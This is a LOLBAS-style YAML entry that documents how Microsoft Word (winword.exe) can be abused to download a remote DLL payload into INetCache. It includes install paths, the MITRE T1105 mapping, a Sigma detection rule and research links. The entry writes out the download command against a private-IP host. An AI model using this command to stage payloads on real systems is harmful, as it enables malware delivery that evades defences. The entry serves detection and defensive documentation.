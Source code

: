 ```yaml
---
Name: Winword.exe
Description: Microsoft Office binary
Author: 'Reegun J (OCBC Bank)'
Created: 2019-07-19
Commands:
  - Command: winword.exe "http://192.168.1.10/TeamsAddinLoader.dll"
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in INetCache.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files\Microsoft Office\root\Office16\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\winword.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office16\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\winword.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office15\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\winword.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office14\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office12\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office12\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office12\winword.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_office_arbitrary_cli_download.yml
  - IOC: Suspicious Office application Internet/network traffic
Resources:
  - Link: https://twitter.com/reegun21/status/1150032506504151040
  - Link: https://medium.com/@reegun/unsanitized-file-validation-leads-to-malicious-payload-download-via-office-binaries-202d02db7191
Acknowledgement:
  - Person: 'Reegun J (OCBC Bank)'
    Handle: '@reegun21'
---
```


